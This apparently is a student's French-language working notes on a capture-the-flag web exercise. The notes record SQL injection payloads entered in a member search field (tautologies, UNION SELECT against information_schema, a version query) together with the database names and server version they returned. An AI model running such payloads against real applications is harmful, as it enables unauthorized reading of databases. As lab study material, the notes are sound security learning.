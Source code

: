 

## A refaire, pas fini
- Sur la page de recherche de Members si on met "1 OR 1=1" on recois une liste des users
dans laquelle on voit un user avec Fist name: Flag et Surname: GetThe

- Ensuite j'ai teste "1 OR user_id=5 AND first_name IS NOT NULL "
ID: 1 OR user_id=5 AND first_name IS NOT NULL 
First name: Flag
Surname : GetThe



- 1 OR 1=1 UNION SELECT 1,2-- if that works without error, then the query likely has two columns.

- ou can attempt to retrieve the names of the databases using: 1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA--

ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: one
Surname : me
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: two
Surname : me
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: three
Surname : me
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: Flag
Surname : GetThe
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: 2
Surname : information_schema
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: 2
Surname : Member_Brute_Force
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: 2
Surname : Member_Sql_Injection
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: 2
Surname : Member_guestbook
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: 2
Surname : Member_images
ID:  1 OR 1=1 UNION SELECT 2,SCHEMA_NAME FROM information_schema.SCHEMATA-- 
First name: 2
Surname : Member_survey



- 1 OR 1=1 UNION SELECT 1, (SELECT @@version)-- 
on recois ca

...
ID: 1 OR 1=1 UNION SELECT 1, (SELECT @@version)-- 
First name: Flag
Surname : GetThe

ID: 1 OR 1=1 UNION SELECT 1, (SELECT @@version)-- 
First name: 1
Surname : 5.5.64-MariaDB-1ubuntu0.14.04.1
